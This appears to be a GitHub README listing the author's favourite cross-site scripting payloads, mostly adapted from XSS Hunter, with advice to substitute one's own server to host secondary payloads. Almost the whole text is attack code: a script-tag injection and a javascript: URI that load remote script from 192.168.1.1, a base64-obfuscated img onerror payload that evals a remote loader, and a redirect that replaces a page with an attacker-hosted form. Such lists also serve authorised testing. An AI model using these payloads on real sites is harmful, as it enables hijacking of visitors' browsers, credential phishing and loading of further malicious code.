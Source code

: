 # A Few of My Favorite XSS Payloads: 

Most of these are from or variations of [XSS Hunter]{https://xsshunter.com/app} payloads. 
You can simply modify the host in the payload and run your own web server to both host secondary payloads and check for blind XSS.

##Basic Tag XSS payload -
```
"><script src=http://192.168.1.1></script>
```
##URI XSS payload - 
```
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://192.168.1.1\';document.body.appendChild(a)')
```
##IMG Tag Base64 encoded payload - 

Final payload - (don't use this directly, follow the directions below. This is just an example)
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xOTIuMTY4LjEuMSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```

Inner payload - modify your IP address then base64 encode this.
```
var a=document.createElement("script");a.src="http://192.168.1.1";document.body.appendChild(a);
```

##IMG Tag + iframe to replace page with your own HTML form - 
```
<img src=x onerror="Javascript:window.location.replace('http://192.168.1.1/payload.html')">
```




